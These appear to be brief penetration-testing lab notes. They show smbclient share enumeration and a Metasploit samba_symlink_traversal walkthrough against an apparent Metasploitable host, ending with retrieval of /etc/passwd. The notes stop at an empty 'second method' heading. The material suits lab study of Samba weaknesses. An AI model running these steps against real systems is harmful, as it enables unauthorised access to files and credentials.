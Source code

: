 




# SMBCLIENT

- Samba client with an FTP Liek interface
- Used to transfer files or to look into share names

1. To list the shares on the host machine
# smbclient -L 192.168.1.1
# smbclient -L \\\\192.168.1.1

2. If we have username and password
# smbclient -L \\\\192.168.1.1 -U 'msfadmin'


Exploiting using msfconsole
# use auxiliary/admin/smb/samba_symlink_traversal
# show options
# set RHOST 192.168.1.6
# set SMBSHARE tmp
# exploit

This will have a new file mounted and which has access to the root file system.

try to use this to connect server

smbclient //192.168.1.6/tmp

cd rootsf

ls

cd etc\

ls

get passwd

more passwd



second method
------------------------------------------------------
